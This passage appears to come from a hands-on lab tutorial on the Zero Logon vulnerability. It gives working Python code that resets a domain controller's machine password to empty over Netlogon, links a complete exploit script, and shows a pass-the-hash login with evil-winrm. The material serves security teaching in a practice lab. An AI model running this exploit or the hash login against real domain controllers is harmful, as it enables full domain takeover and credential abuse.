 The Additional Code we're slotting in:

```python3
    newPassRequest = nrpc.NetrServerPasswordSet2()
    newPassRequest['PrimaryName'] = dc_handle + '\x00'
    newPassRequest['AccountName'] = target_computer + '$\x00'
    newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth['Credential'] = b'\x00' * 8
    auth['Timestamp'] = 0
    newPassRequest['Authenticator'] = auth
    newPassRequest['ComputerName'] = target_computer + '\x00'
    newPassRequest['ClearNewPassword'] =  b'\x00' * 516
    rpc_con.request(newPassRequest)
```

At this point, your code should be good to go, and you should be able to successfully
exploit Zero Logon. If you are still having issues,
you can use the following code found here:

[zeroLogon-NullPass](https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py)

## Lab It Up

#### Time to Play

Now that you've learned about Zero Logon,
it's time to put your new found skills to the test and exploit this vulnerable
Domain Controller!

#### Ctrl+Z

After you get done, if you want to play around some more,
instead of terminating the machine,
you can simply issue the following command to reset the machine back to it's
original state:

```bash
powershell.exe -c 'Reset-ComputerMachinePassword'
```

If you're confused on how to issue the command,
you can simply Pass The Local Admin Hash with Evil-WinRM to gain command execution.
You can do so with the following command:

```bash
evil-winrm -u Administrator -H <Local Admin Hash> -i <Machine IP>
```

```json
```
